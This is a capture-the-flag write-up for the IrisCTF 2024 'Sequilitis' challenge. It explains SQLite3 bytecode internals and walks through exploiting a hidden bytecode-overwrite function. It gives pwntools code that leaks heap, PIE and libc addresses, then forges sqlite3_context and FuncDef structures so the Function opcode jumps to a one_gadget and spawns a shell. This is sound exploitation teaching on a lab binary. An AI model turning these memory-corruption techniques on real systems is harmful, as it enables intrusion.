 ```yaml
---
title: "IrisCTF 2024 - Sequilitis"
description: 
date: 2024-01-13T14:02:58+05:30
image: 
math: 
license: 
hidden: false
comments: true
draft: false
categories:
  - CTF Writeup
tags:
  - IrisCTF2024
  - Sqlite3
  - Binary Exploitation
---
```


### Introduction
I played IrisCTF last week and found Sequilitis really interesting. Although I wasn't able to solve it during the CTF, I worked on it afterward. The challenge uses the SQLite3 engine, so we need to understand SQLite3 internals before diving into the challenge.

### Sqlite3 Internals
SQLite3 uses a bytecode engine. First, it translates SQL statements into bytecode, and then the generated bytecode runs in a VM. Each instruction is 24 bytes, i.e., 6 ints. The opcode takes the first 4 bytes, and the arguments take the rest. To take a look at the bytecode, we can use the `Explain` keyword, which gives us the bytecode of the SQL statement instead of executing it in the VM.

![](IrisCTF2024/bytecode.png)

You can take a look at all the opcodes [here](https://www.sqlite.org/opcode.html#the_opcodes).

### Bug Analysis

The challenge essentially involves four things:

1. Adding a query.
2. Executing the query.
3. Deleting the query.
4. Exiting.

The functionality is pretty straightforward, but there is a hidden function called `inscribe()`, which is where the bug lies.

```c
void inscribe(sqlite3_stmt **stmt) {
  if(*stmt == NULL) {
    printf("There is no prepared statement at this location.\n");
    return;
  }

  int amount = *(int *)((void *)*stmt + 0x90);
  unsigned char *tome = *(unsigned char **)((void *)*stmt + 0x88);

  printf("How many characters will you inscribe (up to %d)? ", amount * 24);
  int actual = 0;
  scanf("%d", &actual);
  getchar();
  if(actual <= 0 || actual > amount * 24) {
    printf("Invalid amount.\n");
    return;
  }
  printf("Inscribe your message: ");
  for (size_t i = 0; i < actual; i++) {
    *tome = getchar();
    ++tome;
  }
  printf("\nIt has been done.\n");
}
```
The function takes the query index as the input and then allows us to overwrite the bytecode of that query.

### Getting Leaks

We know from the bytecode that the engine only handles 32-bit values. But how does it handle values that exceed this limit? The answer is that it uses pointers instead. For the query `select 0x1122334455`, this is the memory layout of the bytecode:

![](IrisCTF2024/img1.png)

It handles queries like `SELECT 1.1` in the same way.

Now, what if we overwrite the last byte of the pointer with an address that points to some useful heap location? This would result in a heap leak. By exploiting this heap leak, we can achieve arbitrary read access on the heap. Utilizing this, we can leak the PIE address and then leak the printf GOT to obtain the libc address.

```python
def leak_val(addr):
    bytecode = generate_opcode(8, 0, 0, 0, 4, 0, 0) + p8(72) + p8(243) + p16(0) + p32(0) + p32(1) + p32(0) + addr
    sl(b"5\n1\n" + str(len(bytecode)).encode());
    sl(bytecode)
    sla(b"It has been done.", b"2")
    sl(b"1")
    ru(b"? ")
    return int(rl().decode().split(",")[0])

heap = leak_val(b"\xe0")
heap = heap - 0xe008
log.info("heap --> " + hex(heap))

baseleak = leak_val(p64(heap + 0x640))
base_addr = baseleak - 0xe3d87
log.info("base addr --> " + hex(base_addr))

printf = leak_val(p64(base_addr + 0x11aed8))
libc.address = printf - 0x606f0
log.info("libc --> " + hex(libc.address))
```

Now that we have all the leaks we need, We have to figure out how to get RIP control.

### Getting RIP Control

After looking at the opcodes, We can see that `function` opcode can help us get RIP control.

Here is the opcode description for `Function`:
```
Invoke a user function (P4 is a pointer to an sqlite3_context object that contains a pointer to the function to be run) with arguments taken from register P2 and successors. The number of arguments is in the sqlite3_context object that P4 points to. The result of the function is stored in register P3. Register P3 must not be one of the function inputs.<br><br>P1 is a 32-bit bitmask indicating whether or not each argument to the function was determined to be constant at compile time. If the first argument was constant then bit 0 of P1 is set. This is used to determine whether meta data associated with a user function argument using the sqlite3_set_auxdata() API may be safely retained until the next invocation of this opcode.|
```

Here are some useful structs:
```c
struct sqlite3_context {
  Mem *pOut;              /* The return value is stored here */
  FuncDef *pFunc;         /* Pointer to function information */
  Mem *pMem;              /* Memory cell used to store aggregate context */
  Vdbe *pVdbe;            /* The VM that owns this context */
  int iOp;                /* Instruction number of OP_Function */
  int isError;            /* Error code returned by the function. */
  u8 enc;                 /* Encoding to use for results */
  u8 skipFlag;            /* Skip accumulator loading if true */
  u8 argc;                /* Number of arguments */
  sqlite3_value *argv[1]; /* Argument set */
};

struct FuncDef {
  i8 nArg;             /* Number of arguments.  -1 means unlimited */
  u32 funcFlags;       /* Some combination of SQLITE_FUNC_* */
  void *pUserData;     /* User data parameter */
  FuncDef *pNext;      /* Next function with same name */
  void (*xSFunc)(sqlite3_context*,int,sqlite3_value**); /* func or agg-step */
  void (*xFinalize)(sqlite3_context*);                  /* Agg finalizer */
  void (*xValue)(sqlite3_context*);                     /* Current agg value */
  void (*xInverse)(sqlite3_context*,int,sqlite3_value**); /* inverse agg-step */
  const char *zName;   /* SQL name of the function. */
  union {
    FuncDef *pHash;      /* Next with a different name but the same hash */
    FuncDestructor *pDestructor;   /* Reference counted destructor function */
  } u; /* pHash if SQLITE_FUNC_BUILTIN, pDestructor otherwise */
};
```

If we fake these structures and overwrite the function pointer with a one_gadget, it will spawn a shell. To achieve this, we need to craft a fake `sqlite3_context` that points to a fake `FuncDef`. This `FuncDef` must contain the target pointer.

Fake sqlite3_context:
```python
payload = p64(0)
payload += p64(ptr1+0x38) #FuncDef *pFunc; which is now our controlled pointer.
payload += p64(0)
payload += p64(0)
payload += p32(0) + p32(0)
payload += p8(0) + p8(0)
payload += p16(0) + p32(0)
payload += p64(ptr1+0x64) #nulls
```

Fake FuncDef:
```python
payload += p8(0)
payload += p8(0) + p16(0)
payload += p32(0) + p64(0)
payload += p64(0)
payload += p64(oneGadget) # func* xSFunc --> out target function ptr 
```

Now that we have the fake structures ready, we will write them into memory by editing a query (1). Then, we'll make another query (2) to overwrite it with a function call, and subsequently execute it.

```python
edit_query(1, len(payload), payload)
new_query(2, b"SELECT 1.0")
bytecode = generate_opcode(66, 241, 0, 0, 0, 0, ptr1)
edit_query(2, len(bytecode), bytecode)
exec_query(2)
```

This should spawn us a shell!

![](IrisCTF2024/img2.png)

You can find challenge files and exploit script [here](https://github.com/SanjayVardhan/pwn/tree/main/Origin/CTFs/IrisCTF2024/sequilitis)